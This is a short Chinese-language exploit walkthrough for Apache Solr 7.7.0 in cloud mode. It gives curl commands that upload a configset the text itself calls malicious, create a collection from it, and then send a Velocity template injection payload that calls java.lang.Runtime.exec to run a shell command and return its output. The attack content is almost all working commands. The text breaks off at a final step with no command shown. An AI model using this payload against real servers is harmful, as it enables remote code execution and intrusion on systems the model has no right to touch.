



需要solr以cloud模式启动，特征是：

会有一个cloud的功能 。

编译一个恶意配置：

在对应目录下依次执行以下shell命令。

/solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf

zip -r - * > mytest.zip

curl -X POST --header "Content-Type:application/octet-stream" --data-binary @mytest.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=mytest"  #注册一个配置文件集合为mytest

curl "http://127.0.0.1:8983/api/cluster/configs?omitHeader=true"  #查询配置文件集合是否上传成功

curl "http://127.0.0.1:8983/solr/admin/configs?action=CREATE&name=mytest2&baseConfigSet=mytest&configSetProp.immutable=false&wt=xml&omitHeader=true"

curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=mytest&numShards=1&replicationFactor=1&wt=xml&collection.configName=mytest2" #使用之前上传的配置文件集合为mytest

curl -v "http://127.0.0.1:8983/solr/mytest/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"

最后执行命令：

